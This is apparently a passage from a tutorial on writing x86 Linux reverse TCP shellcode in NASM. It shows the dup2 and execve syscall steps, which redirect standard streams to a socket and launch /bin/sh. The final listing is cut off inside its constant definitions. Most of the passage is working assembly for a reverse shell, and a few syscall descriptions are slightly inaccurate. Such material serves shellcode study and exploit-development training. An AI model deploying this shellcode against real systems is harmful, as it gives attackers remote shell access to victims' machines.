 ### Dup(2)
- This will allocate the file descriptors, virtual handles used to access certain process I/O operations and to simulate remote user's input and display to the terminal.
 The usage are detailed in: https://man7.org/linux/man-pages/man2/dup.2.html
- Synopsis: `dup(int oldfd, int newfd, int flags)`
- Syscall arguments:
  - ebx: sockfd   = same with [Connect(2)](#connect2)
  - ecx: sockaddr = stdin, stdout, and stderr
    - stdin  = 0x0
    - stdout = 0x1
    - stderr = 0x2

 NASM Code:
 ```nasm {linenostart=54}
  push 0x3
  pop ecx
  mov ebx, edi
loop:
  mov al, DUP
  dec ecx
  int 0x80
  jne loop
 ```

### Execve(2)
- This will execute the `/bin/sh` program on the remote machine
 The usage are detailed in: https://man7.org/linux/man-pages/man2/execve.2.html
- Synopsis: `execve(const char *pathname, char *const argv[], char *const envp[])`
- Syscall arguments:
  - ebx: pathname   = 'bin//sh' address in stack
  - ecx: argv       = 0x0
  - ecx: envp       = 0x0

 NASM Code:
 ```nasm {linenostart=64}
  xor ebx, ebx
  mul ebx
  push ebx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx, esp
  mov al, EXECVE
  int 0x80
 ```
## Final NASM Code
```nasm
; Purpose: Reverse TCP shellcode

global _start

section .text
  ; settings
  PORT        equ 0xd204        ; default 1234
  XOR_IP      equ 0xfeffff80    ; default (127.0.0.1 XORed with 0xffffffff)
                                ; this is to avoid null in shellcode

  ; syscall kernel opcodes found in /usr/include/asm/unistd_32.h
  SOCKET      equ 0x167
  CONNECT     equ 0x16a
  DUP         equ 0x3f
  EXECVE      equ 0xb

  ; argument constants
```